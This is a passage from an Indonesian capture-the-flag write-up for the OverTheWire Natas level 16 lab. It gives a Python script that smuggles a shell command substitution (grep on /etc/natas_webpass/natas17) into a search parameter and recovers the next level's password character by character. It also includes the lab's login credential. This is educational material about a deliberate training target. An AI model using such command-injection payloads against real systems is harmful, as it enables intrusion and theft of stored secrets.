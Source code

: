 Sehingga, web tidak akan menampilkan kata apa-apa karena tidak ada kata AfricansABCDEFGH di wordlist yang disediakan. Dari sini, kita bisa menyimpulkan, bahwa password natas17 memiliki awalan A.

Mari kita buat sebuah script python untuk merepetisisi pertanyaan interogatif ke website tersebut untuk mencari password natas17 sampai lengkap, penulis membuat script seperti

```
#!/usr/bin/env python3
import requests
import string
 
 
user = "natas16"
pw = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"
 
charset = string.ascii_lowercase+string.ascii_uppercase+string.digits
 
loop=True
flag=""
 
while loop:
	loop=False
	for char in charset:
		r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=Africans$(grep ^'+flag+char+' /etc/natas_webpass/natas17)&submit=Search',auth=(user,pw))
		if 'Africans' not in r.text:
			flag+=char
			print('Current Flag : '+flag)
			loop=True
			break
```

![Image](img/natas16/step3.jpg)


# TO BE CONTINUED -->

